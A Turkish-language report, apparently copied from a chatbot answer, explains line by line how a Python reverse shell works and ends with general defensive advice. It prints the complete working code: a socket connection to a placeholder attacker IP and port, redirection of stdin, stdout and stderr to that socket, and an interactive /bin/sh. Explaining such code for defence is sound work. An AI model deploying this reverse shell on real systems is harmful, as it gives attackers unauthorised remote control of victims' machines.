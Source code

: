 (Kötü Niyetli Kullanılabilecek)Bir ters kabuk (reverse shell) bağlantısı kurmayı hedeflemektedir. İşte adım adım kodun ne yaptığını açıklayan bir rapor: 

1. Giriş
Kod, hedef bilgisayarda çalıştırıldığında, saldırganın kontrol ettiği bir makineye bağlantı kurarak bir komut kabuğu (shell) açar ve saldırganın bu kabuk üzerinden hedef bilgisayarı kontrol etmesine olanak tanır. Bu tür saldırılar genellikle yetkisiz erişim sağlamak ve sistemde kötü niyetli komutlar çalıştırmak için kullanılır.

2. Kod Analizi
2.1. Modül İçe Aktarma

import socket, subprocess, os
socket: Ağ bağlantıları kurmak için kullanılır.
subprocess: Yeni süreçler oluşturmak ve komutlar çalıştırmak için kullanılır.
os: İşletim sistemi ile ilgili işlevleri yerine getirmek için kullanılır.
2.2. Soket Oluşturma


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.AF_INET: IPv4 adres ailesini kullanır.
socket.SOCK_STREAM: TCP bağlantı türünü kullanır.
2.3. Bağlantı Kurma


s.connect(("SALDIRI_HEDEF_IP", SALDIRI_HEDEF_PORT))
s.connect(): Saldırganın IP adresi (SALDIRI_HEDEF_IP) ve port numarası (SALDIRI_HEDEF_PORT) belirtilerek saldırganın kontrolündeki makineye bağlanılır.
2.4. Dosya Tanıtıcılarının Yönlendirilmesi

Kodu kopyala
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.dup2(): Hedef makinedeki standart giriş (stdin), standart çıkış (stdout) ve hata çıkışı (stderr) dosya tanıtıcıları, soket dosya tanıtıcısına (s.fileno()) yönlendirilir. Bu, saldırganın komutları doğrudan terminal üzerinden yürütmesine olanak tanır.
2.5. Kabuk Başlatma
python
Kodu kopyala
p = subprocess.call(["/bin/sh", "-i"])
subprocess.call(): Yeni bir süreç başlatarak /bin/sh kabuğunu interaktif modda (-i) çalıştırır.
3. Özet
Amaç: Hedef bilgisayarda çalışan bu betik, saldırganın belirlediği bir IP ve port üzerinden bağlantı kurar ve hedef bilgisayarda bir komut kabuğu açar.
Fonksiyonellik: Saldırgan, bu bağlantı üzerinden hedef bilgisayara komutlar gönderebilir ve bu komutların çıktısını alabilir.
Güvenlik Riski: Bu tür ters kabuk bağlantıları, yetkisiz erişim ve kötü niyetli etkinlikler için kullanıldığından, ciddi bir güvenlik riski oluşturur. Bu nedenle, sistemlerin bu tür saldırılara karşı korunması ve şüpheli etkinliklerin izlenmesi önemlidir.
4. Sonuç
Bu tür saldırılar, sistem güvenliği açısından ciddi tehditler oluşturur ve bunlara karşı korunmak için güvenlik duvarları, izinsiz giriş tespit sistemleri (IDS), ve düzenli güvenlik taramaları gibi önlemler alınmalıdır.

